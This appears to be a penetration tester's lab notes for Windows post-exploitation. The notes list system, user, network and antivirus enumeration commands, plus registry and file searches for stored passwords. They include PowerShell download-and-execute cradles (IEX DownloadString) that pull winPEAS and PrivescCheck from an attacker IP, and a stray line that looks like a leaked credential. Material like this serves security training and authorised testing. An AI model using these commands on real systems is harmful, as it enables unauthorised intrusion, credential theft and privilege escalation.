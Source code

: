 

```
#System Enuemration
shell
hostname
systeminfo 
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe 
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic logicaldisk 
wmic logicaldisk get caption,description,providername 
wmic logicaldisk get caption

```

```
#User Enumeration
whoami
whoami /priv
whoami /groups

net user
net user <username>
net localgroup
net localgroup <groupname>
```

```
#Network Enumeration
ipconfig
ipconfig /all

arp -a
route print

netstat -ano
```

```
#AV Enumeration
sc query windefend
sc queryex type= service 

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

```
HassHass
._;k4n?F61:y
```

# System info
```
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type"
```


# List patches
```
wmic qfe
```
 
# List installed applications
```
wmic product get name,version
```
 
# Get disks
```
wmic logicaldisk get caption,description
```
 
# User enumeration
```
whoami /priv
```

```
whoami /groups
```

```
net users
```

```
net localgroup
```
 
# Network enumeration
```
ipconfig
```

```
route print
```

```
arp -a
```
 
# Finding passwords
```
findstr /si password *.txt *.ini *.config
```

```
reg query HKLM /f password /t REG_SZ /s
```

```
reg query HKCU /f password /t REG_SZ /s
```
 
# Services
```
sc query | findstr /B /C:"SERVICE_NAME" /C:"DISPLAY_NAME"
```
 
# Firewall Configuration
```
netsh advfirewall firewall dump
```

```
netsh firewall show state
```

```
netsh firewall show config
```

## Winpeas
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
```
cd /usr/share/windows-resources/
```

```
Invoke-WebRequest -Uri http://10.10.16.6/Auto/winPEASx64.exe -OutFile winpeas.exe
```

```
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe'); Invoke-winPEASx64 -Extended
```

```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.6/Auto/winPEASx64.exe') | powershell -noprofile -
```

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PEASS-ng/winPEAS/winPEASps1/winPEAS.ps1')
```

```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```


## Priv
https://github.com/itm4n/PrivescCheck
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6/PrivescCheck/PrivescCheck.ps1'); Invoke-PrivescCheck -Extended
```


## IIS Server
```
Generally what we do when we are on a Web Server
We try to go into the www directory
cd \inetpub
cd wwwroot 

Cuz if we get a shell as IIS chances are we will be having SE Impersonate Privilege which will allow us to escalate.
```


## How to run the .exe file in kali linux
ILSpy is the **open-source .** **NET assembly browser and decompiler**

```
wget https://github.com/icsharpcode/AvaloniaILSpy/releases/download/v7.2-rc/Linux.x64.Release.zip
```

```
unzip Linux.x64.Release.zip
```

```
unzip ILSpy-linux-x64-Release.zip
```

```
./ILSpy
```

![[Pasted image 20240917081516.png]]

